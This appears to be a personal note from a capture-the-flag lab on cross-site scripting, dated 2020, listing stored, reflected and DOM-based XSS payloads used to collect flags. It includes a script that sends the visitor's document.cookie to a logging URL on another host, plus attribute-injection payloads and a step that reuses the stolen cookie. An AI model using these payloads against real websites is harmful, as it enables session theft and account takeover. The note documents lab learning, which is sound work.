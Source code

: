 # Cross-site Scripting (XSS)
# Data: 30.09.2020, 01.10.2020

IP:`10.10.40.163`, `10.10.178.200`, `10.10.82.40`
------------------

register on www

1. Stroed XXS
	- <b> bold </b> - instert HTML to get 1st flag
	- <script>alert(document.cookie)</script> - display cookie, flag in pop-up
	- <script>document.getElementById('thm-title').innerHTML="I am a hacker"</script> - for a 3rd, hidden, flag

>i f.up lil bit - new machine, new IP:`10.10.178.200`


	- <script>document.location='http://10.10.178.200/log/'+document.cookie</script> 
		navigate to <IP>/logs/ and there is a cookie!
	- post new comment after changing cookie value (in burp or in DevTools)

2. Reflected XSS

	- <script>alert("Hello")</script>
	- <script>alert(window.location.hostname)</script>

3. DOM-Based XSS

	- test" onmouseover="alert(document.cookie)"
	- test" onmouseover="document.body.style.backgroundColor = 'red'




